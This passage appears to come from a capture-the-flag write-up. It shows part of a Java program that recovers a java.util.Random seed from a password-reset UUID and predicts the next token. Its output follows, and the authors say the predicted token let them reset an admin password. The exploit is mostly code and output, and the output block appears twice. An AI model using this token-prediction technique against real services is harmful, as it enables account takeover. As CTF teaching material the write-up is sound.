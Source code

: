 ```java

        return  ret;
    }

    public static void main(String[] args) {
        System.out.println("Starting");

        Random random;
					// using the UUID we got from our own password reset request:
        UUID uuid = UUID.fromString("7e7c8bd5-1ba9-4419-aea9-8e7f3f3dfe7b");

        long[] parts = splitUID(uuid);
        int[] pp;
        long seed4, r2;
        for(int i=0; i<4 ; i++){
            pp = App.splitLong(parts[i]);
            seed4 = App.getSeed( pp[0], pp[1]);
            // Test it now:
            random = new Random(seed4);
            r2 = random.nextLong();
            System.out.println(parts[i]+": "+r2);
            // Get the next token
            uuid = App.getToken(random);
            System.out.println(parts[i]+": "+uuid.toString());
        }
    }
```

Which gave us the following output:

```bash
Starting
current seed not found
-1249310744445583749: -4962768465676381896
-1249310744445583749: 3d93cb79-9b39-40be-a32d-c9f64f1df03a
 Seed found: 30426537520105
-5860996762872971653: -5860996762872971653
-5860996762872971653: 6abec385-18e8-4422-9d90-cc2c2e54dc3b
current seed not found
-1249310744445583749: -4962768465676381896
-1249310744445583749: 3d93cb79-9b39-40be-a32d-c9f64f1df03a
 Seed found: 30426537520105
-5860996762872971653: -5860996762872971653
-5860996762872971653: 6abec385-18e8-4422-9d90-cc2c2e54dc3b
```

And allowed us to reset the admin password using this newly generated UUID and win an extra CTF flag for our team!
